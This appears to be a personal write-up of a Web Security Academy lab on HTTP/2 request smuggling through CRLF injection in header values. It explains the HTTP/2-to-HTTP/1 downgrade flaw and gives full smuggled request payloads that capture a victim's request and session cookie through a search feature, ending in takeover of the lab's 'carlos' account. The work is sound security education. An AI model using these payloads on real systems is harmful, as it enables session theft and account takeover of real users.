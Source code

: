 
The catch here is that HTTP/2 messages are binary rather than text-based, so the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters.

This means that `\r\n` no longer has any value, and can be included inside the value without causing any splitting.

When the request is rewritten as HTTP/1 request, then `\r\n` will be interpreted as a header delimiter.

For example:

```HTTP/2
Foo: bar\nTransfer-Encoding: chunked
```

```HTTP/1
Foo: bar
Transfer-Encoding: chunked
```

## CLFR Exploitation

The goal is to use CLFR vulnerability to gain access to another user's account. The victim accesses the home page every 15 seconds.

First let's capture the root request and send that to repeater. Change the method to `POST` and remove the unnecessary headers.

In order to verify the vulnerability, let's add the `Transfer-Encoding: chunked` but in the same line with another header, so the frontend will not see it.

`Foo: Bar\r\nTransfer-Encoding: chunked`

So the request will be:

```HTTP/2
...
Foo: Bar\r\nTransfer-Encoding: chunked

0

GET /dajlshdalked HTTP/1.1
X-Ignore: x
```

Always make sure that there will not be `\r\n` after the X-Ignore: x, as this will not allow the correct append of the victim's request.

When I send this, and then a normal request, I got a `404` meaning that the vulnerability is present.

Response
```http
HTTP/2 404 Not Found
```

Now, to exploit and gain access to the victim's account. For, this I will target its cookie.

In the main page, there is a search function, and if I search for something, that is stored in the "Recent searches", so I will use this to gain access to the victim's account.

![](../../../../images/Pasted image 20250116112611.png)

I modify my attack request in a way that the `Content-Length` is much longer than the actual body.

```http
...
Foo: Bar\r\nTransfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a7a004804d6a19f80d6402b00bd0047.web-security-academy.net
Cookie: session=9QjWxUhrPKWLuxEXqD6HwnMDzlhrRNTj;
Content-Length: 1000
Content-Type: application/x-www-form-urlencoded

search=halilWashere
```

When I send this, a couple of times, as the victim visits the page every 15 seconds, the request of the victim will be appended to my search query. 

And I see that I have extracted the request, and there is also the cookie.
![](../../../../images/Pasted image 20250116113108.png)

When I put this account's Cookie in Burp, I gain access to the `carlos` account.

![](../../../../images/Pasted image 20250116113425.png)